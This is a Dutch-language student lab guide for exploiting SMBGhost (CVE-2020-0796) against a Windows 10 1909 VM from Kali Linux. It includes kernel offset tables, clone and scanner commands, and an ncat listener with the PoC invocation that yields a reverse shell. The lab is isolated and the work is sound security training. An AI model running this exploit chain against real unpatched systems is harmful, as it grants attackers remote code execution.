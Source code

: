 # Handleiding NPE 

SMBGhost Vulnerability  
CVE-2020-0796
-----------------------------
Doel: Remote Excecution   
Target: Windows 10-1909   
Aanval: Kali Linux  
-----------------------------
Team:
- Demi De Fré   
- Abdul Rehman Shafaquet    
- Arthur Neirynck  

### Algemeen
Alle informatie en documentatie is beschikbaar op onze github repo:
[Github team](https://github.com/abdulnsh/cybersecurity_vr_opdracht).

## Deployment stappenplan

### Stap 1: Downloaden ISO & VDI
* Download het .vdi bestand voor de [Kali Linux](https://www.osboxes.org/kali-linux/) VM.
* Download het .ISO bestand voor de [Windows 10-1909](https://archive.org/download/win-10-1909-english-x-64) VM.  

### Stap 2: Vboxmanage automatisatie script's 
* Open een command prompt naar keuze.
* Run het bash script `./kali.sh` om de Kali Linux VM aan te maken.
* Run het bash script `./windwos1909.sh` om de Windows VM aan te maken.

### Stap 3: Inloggen op de VM's
* Kali inloggegevens (default)
* username: osboxes
* wachtwoord: osboxes.org
* Bij de windows zijn er geen inloggegevens nodig.


## Cheatsheet aanval

### IP-tabel

| VM              | IP Address   |
| ----------------| ------------ |
| Windows 10-1909 | 192.168.1.17 |
| Kali Linux VM   | 192.168.1.20 |

## Inleiding

De scripts die we gebruiken voor de aanval zijn beschikbaar op onze [Github](https://github.com/abdulnsh/cybersecurity_vr_opdracht).  

Hier vermelden we toch voor de zekerheid onze gebruikte bronnen: 
- [RCE-script](https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master)
- [Vulnerability Scanner](https://github.com/ButrintKomoni/cve-2020-0796)
- [Extra](https://github.com/jiansiting/CVE-2020-0796-Scanner) (niet nodig, ter info)

### Offsets informatie
Voor elke versie van Windows 10 hebben we eerst hun offsets nodig. De offsets zijn specifieke waarden dat gebruikt moeten worden in het main Python script ('SMBLeedingGhost.py') voor de exploit. De offsets worden dan gebruikt om het main script aan te passen om een successvolle RCE uit te voeren.  

calculate_target_offsets.bat is een script dat die offsets kan berekenen en die gelden voor elke Windows 10 die dezelfde versie runt. Hier zijn enkele offset-waarden:

| Windows 10 (Version 1909) Builds | V10.0.18363.418 | V10.0.18363.535 - V10.0.18363.628 | V10.0.18363.693 | V10.0.18363.752 | V10.0.18363.365 |
| -------------------------------- | --------------- | --------------------------------- | --------------- | --------------- | --------------- |
| srvnet!SrvNetWskConnDispatch     | 0x2D170         | 0x2D170                           | 0x2D170         | 0x2D170         | 0x2D170         |
| srvnet!imp_IoSizeofWorkItem      | 0x32210         | 0x32210                           | 0x32210         | 0x32210         | 0x32210         |
| srvnet!imp_RtlCopyUnicodeString  | 0x32288         | 0x32288                           | 0x32288         | 0x32288         | 0x32288         |
| nt!IoSizeofWorkItem              | 0x12C380        | 0x12C400                          | 0x6D7A0         | 0x12C410        | 0x12C370        |
| nt!MiGetPteAddress               | 0xBADC8         | 0xBA9F8                           | 0xF1D28         | 0xBA968         | 0xBAFA8         |

Voor onze versie (18363.365) hebben we deze nodig :

- 'srvnet!SrvNetWskConnDispatch': 0x2D170,
- 'srvnet!imp_IoSizeofWorkItem': 0x32210,
- 'srvnet!imp_RtlCopyUnicodeString': 0x32288,
- 'nt!IoSizeofWorkItem': 0x12C370,
- 'nt!MiGetPteAddress': 0xBAFA8

### Stap 1: Git clone op Kali Linux 
* Clone de volgende github repository in de Desktop :

1. `cd Desktop`
2. `git clone https://github.com/ButrintKomoni/cve-2020-0796` (scanner)
3. `git clone https://github.com/jamf/CVE-2020-0796-RCE-POC/tree/master` (RCE exploit)
```
┌──(osboxes㉿osboxes)-[~/Desktop]
└─$ tree
.
├── CVE-2020-0796-RCE-POC
│   ├── README.md
│   ├── SMBleedingGhost.py              - > dit is onze main script voor RCE
│   ├── calc_target_offsets.bat
│   ├── demo.gif
│   ├── smbghost_kshellcode_x64.asm
│   └── tools
│       ├── cdb.exe
│       ├── dbghelp.dll
│       ├── dumpbin.exe
│       ├── link.exe
│       ├── msvcp140.dll
│       ├── symsrv.dll
│       ├── tbbmalloc.dll
│       ├── vcruntime140.dll
│       └── vcruntime140_1.dll
└── cve-2020-0796
    ├── README.md
    └── cve-2020-0796-scanner.py            -> dit is onze scanner

4 directories, 16 files
```

### Stap 2: Vulnerability check
* We controleren eerst of de target (Windows 10-1909) vulnerable is met een [python scanner script](https://github.com/abdulnsh/cybersecurity_vr_opdracht/blob/main/aanval_script/scanner/cve-2020-0796-scanner.py).  
* Parameter = ip van target
```
┌──(osboxes㉿osboxes)-[~/Desktop/cve-2020-0796]
└─$ python3 cve-2020-0796-scanner.py 192.168.1.17
Vulnerable
```

### Stap 3: Remote excecution uitvoeren
* Open een terminal op de Kali Linux en voer de volgende commando's uit.
* `ncat -lvp <port>` : Dit zal onze toegang zijn naar onze windows (dit kan ncat -lvp 1234 zijn)
* `SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`
* `target_ip` = 192.168.1.17  
  `reverse_shell_ip` en `reverse_shell_port`= ip address en poort waarop ncat luistert.
* Het commando ziet er dus als volgt uit: `python3 SMBleedingGhost.py 192.168.1.17 192.168.1.20 1234`

### Stap 4: Resultaat
* Na een tijdje zal de ncat terminal waarop er geluisterd wordt, veranderen naar een Windows 10 shell.
* Nu heb je vanop afstand toegang, via een cmd, tot de target en kan je willekeurige code uitvoeren.

![alt text](images/image-2.png)

![alt text](images/image-1.png)

![alt text](images/image-3.png)










